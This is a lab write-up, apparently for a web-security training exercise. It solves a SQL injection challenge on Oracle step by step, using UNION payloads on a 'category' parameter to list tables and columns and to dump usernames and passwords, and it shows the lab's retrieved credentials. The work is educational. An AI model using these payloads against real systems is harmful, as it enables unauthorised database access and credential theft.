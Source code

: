 

````markdown
# Lab: SQL Injection Attack — Listing Database Contents on Oracle

This lab contains a **SQL Injection** vulnerability in the product category filter.  
The results from the query are returned in the application's response, so a **UNION attack** can be used to retrieve data from other tables.

The application has a login function, and the database contains a table holding usernames and passwords.  
The goal is to determine the table name and column names, then retrieve all usernames and passwords.

To solve the lab, log in as the `administrator` user.

---

## Solution

**Vulnerable Parameter:** `category`  
**Attack Type:** `UNION ATTACK`

---

### 1. Determine Number of Columns
```bash
'+UNION+SELECT+NULL,NULL+FROM+dual--
````

---

### 2. Columns Containing Strings

```bash
'+UNION+SELECT+'a','b'+FROM+dual--
```

---

### 3. Find Table Names

```bash
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

Table found: **`USERS_VVRYEE`**

---

### 4. Find Column Names

```bash
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name+='USERS_VVRYEE'--
```

Columns found:

* `USERNAME_CVFMSR`
* `PASSWORD_QYEPBX`

---

### 5. Extract Usernames and Passwords

```bash
'+UNION+SELECT+USERNAME_CVFMSR,PASSWORD_QYEPBX+FROM+USERS_VVRYEE--
```

Retrieved credentials:

| Username      | Password             |
| ------------- | -------------------- |
| administrator | vwhlzxr85dt4z4oqr0eu |
| carlos        | pcgje7l2hfxenlniwrgn |
| wiener        | k8c377k6fkd1q5na2dli |

---

### 6. Login

Use the retrieved credentials to log in as the administrator.

---


